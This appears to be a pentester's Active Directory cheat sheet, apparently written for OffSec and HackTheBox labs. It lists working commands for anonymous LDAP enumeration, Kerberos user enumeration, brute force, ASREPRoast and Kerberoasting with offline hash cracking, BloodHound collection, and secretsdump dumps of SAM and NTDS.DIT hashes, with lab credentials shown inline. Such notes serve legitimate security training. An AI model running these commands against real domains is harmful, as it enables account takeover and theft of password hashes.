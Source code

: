 ### Enumeration
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
```
Extract users:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName

Extract all info under dn:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec"

Extract description:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description

Extract naming context:
ldapsearch -H ldap://192.168.151.122 -x -s base namingcontexts

Extract all info:
ldapsearch -H ldap://10.10.11.187 -x -s base

Nmap auto enum:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials

enum4linux -a -v ip
```
### User enumeration
```
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
### If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:
```
pip3 install ldapdomaindump 
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
```
If you find something saying that the "bind must be completed" means that the credentials are incorrect.

You can extract everything from a domain using:

Copy
ldapsearch -x -H ldap://10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight'
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
### Brute-force
```
nmap --script ldap-brute -p 389 <IP>
```
### ASREPRoast
>ASREPRoast is a security attack that exploits users who lack the Kerberos pre-authentication required attribute. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

ASREPRoast with username list without pass
```
impacket-GetNPUsers nara-security.com/ -dc-ip 192.168.209.30 -usersfile users.txt -format hashcat -outputfile hashes.txt
```
ASREPRoast with credential
```
impacket-GetNPUsers nagoya-industries.com/Fiona.clark:Summer2023 -dc-ip 192.168.183.21  -request -outputfile hashes.asreproast 

hashcat -m 18200 -a 0 passwords_kerb.txt hashes.asreproast
```
### Kerberos Roasting
```
impacket-GetUserSPNs -request -dc-ip 192.168.219.21 nagoya-industries.com/svc_helpdesk:U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```
> Error of Clock Skew too great
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal
```
### Querying User Data
```
impacket-GetADUsers nagoya-industries.com/'':'' -user pass -dc-ip 192.168.219.21
```
### Domain Info 
```
bloodhound-python -ns 192.168.219.21 -d nagoya-industries.com -u 'Fiona.Clark' -p 'Summer2023' -c all
```
### DCSyn
```
impacket-secretsdump -sam SAM(local SAM file) -system SYSTEM(local SYSTEM file) local
impacket-secretsdump celia.almeda:7k8XHk3dMtmpnC7@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt
impacket-secretsdump celia.almeda@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt -hashes lm:nt

NTDS.DIT Secrets and Kerberos Key:
impacket-secretsdump 'htb.local'/'venom':'newP@ssword2022'@10.10.10.161
```
